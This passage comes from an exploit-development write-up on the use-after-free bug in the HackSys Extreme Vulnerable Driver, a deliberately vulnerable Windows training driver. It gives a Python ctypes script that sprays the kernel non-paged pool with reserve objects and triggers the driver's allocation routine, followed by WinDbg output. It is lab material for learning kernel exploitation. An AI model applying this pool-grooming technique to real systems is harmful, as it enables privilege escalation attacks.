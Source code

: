 Look at AllocateUaFObject method, it will allocate a 0x60 size block.
![](/assets/img/exploit/2018-08-06-hacksys-extreme-vulnerable-driver-useafterfree/0x001.png)

We may using a huge amount of IoCompletionReserve objects to spray our non-paged pool.
```
import sys,struct
from ctypes import *
from subprocess import *

def main():
    kernel32 = windll.kernel32
    ntdll = windll.ntdll

    hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)

    if not hevDevice or hevDevice == -1:
       print "[-] Couldn't get Device Driver handle."
       sys.exit(0)

    spray_event1 = spray_event2 = []

    for i in xrange(10000):
        spray_event1.append(ntdll.NtAllocateReserveObject(byref(HANDLE(0)), 0, 1))
 
    for i in xrange(5000):
        spray_event2.append(ntdll.NtAllocateReserveObject(byref(HANDLE(0)), 0, 1))

    # allocate
    kernel32.DeviceIoControl(hevDevice, 0x222013, None, None, None, 0, byref(c_ulong()), None)

if __name__ == "__main__":
    main()
```

Ignore the "Hack" block, it may be placed in a wrong place, becase I debug it too many times without reboot my system, some 0x60 size block still leave in there.
```
****** HACKSYS_EVD_IOCTL_ALLOCATE_UAF_OBJECT ******
[+] Allocating UaF Object
[+] Pool Tag: 'kcaH'
[+] Pool Type: NonPagedPool
[+] Pool Size: 0x58
[+] Pool Chunk: 0x85BDFD68
[+] UseAfterFree Object: 0x85BDFD68
[+] g_UseAfterFreeObject: 0x85BDFD68
[+] UseAfterFree->Callback: 0x90D992A4
Breakpoint 0 hit
HEVD!AllocateUaFObject+0xf4:
90d993aa 8bc7            mov     eax,edi
```